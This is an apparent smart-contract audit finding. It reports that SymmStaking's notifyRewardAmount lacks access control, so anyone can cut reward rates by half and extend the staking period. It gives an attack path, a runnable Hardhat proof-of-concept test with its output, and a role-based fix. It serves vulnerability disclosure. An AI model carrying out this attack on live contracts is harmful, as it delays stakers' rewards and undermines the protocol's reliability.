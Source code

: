 Main Clay Antelope

Medium

# Missing Access Control in `SymmStaking::notifyRewardAmount` Allows Any User to Dilute Reward Rates and Extend Staking Periods

### Summary

Missing access control in `SymmStaking::notifyRewardAmount` will cause a significant reward rate dilution for stakers as any user can add minimal rewards to extend the reward period and drastically reduce distribution rates in `TokenRewardState`.

### Root Cause

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L275

In `SymmStaking.sol::notifyRewardAmount` the function lacks access control, allowing any user to call it rather than restricting it to only authorized reward managers.

### Internal Pre-conditions

1. The contract must have at least one whitelisted reward token
2. At least one user must have staked tokens and be earning rewards
3. The current reward period must be ongoing (not yet expired)

### External Pre-conditions

None specific required.

### Attack Path

1. Legitimate user stakes tokens in the `SymmStaking `contract
2. Admin configures a reward token and notifies a substantial reward amount (e.g., 10,000 USDT)
3. Time passes halfway through the reward distribution period
4. Attacker calls `notifyRewardAmount` with a minimal amount (e.g 1 USDT or less)
5. The `_addRewardsForToken` function recalculates the reward rate by combining remaining rewards with the tiny new amount and extending the period by a full duration
6. The reward rate is significantly reduced (by approximately 50%)
7. The reward period is extended by a full duration (e.g., 7 days)

### Impact

Stakers suffer a time-value loss as they must remain staked for a significantly longer period (3.5 additional days in our test) to receive their full rewards. 
This time-value manipulation undermines the protocol's reliability and predictability.

### PoC

Place this test inside `symmStaking.behavior.ts`

**PoC**

```javascript
	describe("Reward Dilution Vulnerability", function () {
		it("should demonstrate that anyone can dilute reward rates", async function () {
		  // 1. User deposits tokens
		  await stakingToken.connect(user1).approve(await symmStaking.getAddress(), e("10")); // 10 tokens
		  await symmStaking.connect(user1).deposit(e("10"), user1.address);
		  
		  // 2. Admin adds initial rewards (10,000 USDT for 1 week)
		  const initialRewardAmount = BigInt(10_000_000_000); // 10,000 USDT with 6 decimals
		  await usdtToken.connect(admin).approve(await symmStaking.getAddress(), initialRewardAmount);
		  await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true);
		  await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [initialRewardAmount]);
		  
		  // 3. Record initial values
		  const initialState = await symmStaking.rewardState(await usdtToken.getAddress());
		  const initialRate = initialState.rate;
		  const periodFinish = initialState.periodFinish;
		  console.log(`Initial rate: ${initialRate} / Period end: ${periodFinish}`);
		  
		  // 4. Fast forward halfway through the period
		  const halfwayPoint = 302400; // 3.5 days in seconds
		  await time.increase(halfwayPoint);
		  
		  // 5. Get earned before attack
		  const earnedBeforeAttack = await symmStaking.earned(user1.address, await usdtToken.getAddress());
		  console.log(`User earned before attack: ${Number(earnedBeforeAttack) / 1_000_000} USDT`);
		  
		  // 6. Attacker adds minimal rewards (just 1 USDT)
		  // (made it simple using admin so no need to send usdt to attacker)
		  const attackAmount = BigInt(1_000_000); // 1 USDT with 6 decimals
		  await usdtToken.connect(admin).approve(await symmStaking.getAddress(), attackAmount);
		  await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [attackAmount]);
		  
		  // 7. Check how this affected the rewards
		  const newState = await symmStaking.rewardState(await usdtToken.getAddress());
		  const newRate = newState.rate;
		  const newPeriodFinish = newState.periodFinish;
		  console.log(`New rate: ${newRate} / New period end: ${newPeriodFinish}`);
		  
		  // Calculate percentage decrease and days extended
		  const rateDecrease = ((Number(initialRate) - Number(newRate)) * 100) / Number(initialRate);
		  const daysExtended = (Number(newPeriodFinish) - Number(periodFinish)) / 86400;
		  console.log(`Attack result: Rate decreased by ${rateDecrease.toFixed(0)}%, period extended by ${daysExtended.toFixed(1)} days`);
		  
		  // 8. Check earnings at original end vs new end
		  // Fast forward to original end time
		  const timeToOriginalEnd = Number(periodFinish) - (await ethers.provider.getBlock('latest')).timestamp;
		  await time.increase(timeToOriginalEnd);
		  
		  const earnedAtOriginalEnd = await symmStaking.earned(user1.address, await usdtToken.getAddress());
		  console.log(`User earned at original end: ${Number(earnedAtOriginalEnd) / 1_000_000} USDT`);
		  
		  // Fast forward to new end time
		  const timeToNewEnd = Number(newPeriodFinish) - (await ethers.provider.getBlock('latest')).timestamp;
		  await time.increase(timeToNewEnd);
		  
		  const earnedAtNewEnd = await symmStaking.earned(user1.address, await usdtToken.getAddress());
		  console.log(`User earned at new end: ${Number(earnedAtNewEnd) / 1_000_000} USDT`);
		  
		  // 9. Verify that adding a tiny amount significantly impacts rewards
		  expect(Number(newRate)).to.be.lessThan(Number(initialRate));
		  expect(rateDecrease).to.be.greaterThan(40); // Rate decreased by >40%
		  expect(Number(newPeriodFinish)).to.be.greaterThan(Number(periodFinish));
		  expect(Number(earnedAtOriginalEnd)).to.be.lessThan(Number(initialRewardAmount)); // User gets less than expected at original end
		});
	  });
```

Test Results:
```text
Initial rate: 16534 / Period end: 1742064409
User earned before attack: 4999.8816 USDT
New rate: 8268 / New period end: 1742366811
Attack result: Rate decreased by 50%, period extended by 3.5 days
User earned at original end: 7500.14132 USDT
User earned at new end: 10000.40106 USDT
```

### Mitigation

Add proper access control to the notifyRewardAmount function to ensure that only authorized managers can modify reward schedules:

```solidity
function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused onlyRole(REWARD_MANAGER_ROLE) {
    // Existing implementation
}
```

This ensures that only accounts with the `REWARD_MANAGER_ROLE` can notify rewards, preventing any potential manipulation by unauthorized users.